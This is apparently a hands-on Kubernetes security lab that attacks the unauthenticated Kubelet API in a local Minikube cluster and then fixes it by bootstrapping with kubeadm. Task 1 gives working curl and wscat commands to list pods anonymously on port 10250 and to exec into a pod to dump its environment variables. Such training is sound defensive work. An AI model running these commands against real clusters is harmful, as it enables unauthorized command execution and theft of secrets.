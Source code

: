 ### Attack the Kubelet API
The Kubelet API is responsible for the master to node communication within a Kubernetes cluster. If you expose your nodes to the internet without some important configurations in place you are going to have a bad time. From the official Kubernetes docs:
"By default, requests to the Kubelet’s HTTPS endpoint that are not rejected by other configured authentication methods are treated as anonymous requests, and given a username of system:anonymous and a group of system:unauthenticated."

So let's exploit this "misconfiguration" within Minikube.

## Task 1: Spin up a default Kubernetes cluster

1. Start Minikube using the default localkube bootstrapper:
```
export MINIKUBE_HOME=~/Desktop/lab-tools/.kube
minikube delete
minikube start
```

2. The Kubelet API runs on every node in a cluster. If an individual has network access to a node in the kubernetes cluster, they are able to do some interesting things by default, including "exec-ing" into running pods. 
```
# port 10250 is the read/write port that the Kubelet API uses for communication to the master node
minikube ip
curl --insecure https://<minikubeIP>:10250/pods | jq
# jq is a tool to prettify JSON output - it is optional 
```

3. As you can see, using a default implementation of Minikube (and many other kubernetes production bootstrappers) we are able to list all of the pods running on a given node with a simple `curl` command. This seems bad, right? Let's try to Exec and do some real damage. First, we launch some victim pods to take over. In the `manifests` directory, run the following command:
```
kubectl create -f .
kubectl get pods
```

4. Now we have our unshorten-api Deployment and Service up and running we can extract details from them using the same `curl` command we used before:
```
curl --insecure https://<minikubeIP>:10250/pods | jq
```

5. In the `metadata` field of the JSON output for our Pod you will find the pod name (remember, this curl command is NOT authenticated. An attacker can see this info without the proper settings in place!). The value will look something like `"name": "link-unshorten-8746d649b-7k8w2",`

6. Now, we take that Pod name and run another curl command. Reading Pod data is interesting but we want to do some damage:
```
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.99.100:10250/exec/default/link-unshorten-8746d649b-7k8w2/unshorten-api-container?command=env&input=1&output=1&tty=1"
```

7. This opens a stream which we can access using [wscat](https://www.npmjs.com/package/wscat). Take note of the `location:` header as we will be using that value to read from the stream. You can install `wscat` using the link above. Once `wscat` is installed, run the following command:
```
wscat -c "https://<minikubeIP>:10250/cri/exec/<valueFrom302>" --no-check
```
    
You can use cURL too:
### !! Please note that this command only works reliably with the newer versions of cURL. If you are getting errors, try updating cURL !!
```
curl -k --include \
     --no-buffer \
     --header "Connection: Upgrade" \
     --header "Upgrade: websocket" \
     --header "Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==" \
     --header "Sec-WebSocket-Version: 13" \
     https://<minikubeIP>:10250/cri/exec/<valueFrom302>
```

8. These are *all of the environment variables* for our unshorten-api pod, printed to the screen, unauthenticated. 

See any issues here?

## Task 2: Fix the Issue
There are a number of way to address the kubelet-api "misconfiguration" issue. To do this locally, our most simple solution is to bootstrap our cluster using the `kubeadm` bootstrapper. Out of the box, Minikube still uses `localkube` to build clusters. `localkube` runs every cluster component as a single binary in the Kubernetes environment. This project is in the process of being deprecated in favor of `kubeadm` which offers us a much more robust solution that matches production clusters more closely.
```
minikube delete
minikube start --bootstrapper kubeadm
```

1. Run our `curl` command from before. We see that the response is `Forbidden` which is due to how `kubeadm` bootstraps clusters. `kubeadm` implements authorization of the kubelet by default. Let's take a look at this setting under the hood:
```
curl --insecure https://192.168.99.100:10250/pods
```

2. SSH into our Minikube node and take a look at our kubelet config:
```
minikube ssh
sudo cat /etc/kubernetes/kubelet.conf
```

3. You will see that our config defines a set of certificates which successfully enables authentication between the Master and Nodes. 

### Note: `kubeadm` does this by default but this is not always the case for other bootstrap mechanisms or scratch-built clusters! Always manually check that this configuration is enforced!

### Discussion Question: Is your kubelet api configured to block these attacks?
